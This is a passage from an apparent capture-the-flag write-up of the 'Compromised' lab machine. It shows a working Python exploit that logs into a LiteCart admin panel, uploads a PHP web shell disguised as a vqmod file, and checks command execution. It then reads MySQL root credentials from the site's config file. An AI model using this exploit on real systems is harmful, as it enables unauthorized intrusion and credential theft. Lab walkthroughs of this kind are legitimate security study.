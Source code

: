 ```python
br.select_form(name="login_form")
br["username"] = user
br["password"] = password
res = br.submit()
response = br.open(url + "?app=vqmods&doc=vqmods")
one=""
for form in br.forms():
    one= str(form).split("(")
    one= one[1].split("=")
    one= one[1].split(")")
    one = one[0]
cookies = br._ua_handlers['_cookies'].cookiejar
cookie_dict = {}
for c in cookies:
    cookie_dict[c.name] = c.value
bypass = open('bypass.php', 'r').read()

files = {
        'vqmod': ("mybypass.php", bypass, "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
response = requests.post(url + "?app=vqmods&doc=vqmods", files=files, cookies=cookie_dict)
r = requests.get(url + "../vqmod/xml/mybypass.php?c=id")
if r.status_code == 200:
    print "Shell => " + url + "../vqmod/xml/mybypass.php"
else:
    print "Sorry something went wrong"

```

---

Let's run the exploit again 

![Desktop View]({{ "/assets/img/htb-machines/compromised/11.png" | relative_url }})

our shell is uploaded successfully

![Desktop View]({{ "/assets/img/htb-machines/compromised/12.png" | relative_url }})

now we can execute commands on webserver as we have bypassed disablefunctions.

![Desktop View]({{ "/assets/img/htb-machines/compromised/13.png" | relative_url }})

after enumerating through shell i found mysql creds.

![Desktop View]({{ "/assets/img/htb-machines/compromised/14.png" | relative_url }})

```
cat /var/www/html/shop/includes/config.inc.php

DB_TYPE', 'mysql');
  define('DB_SERVER', 'localhost');
  define('DB_USERNAME', 'root');
  define('DB_PASSWORD', 'changethis');

```
also mysql has a shell 
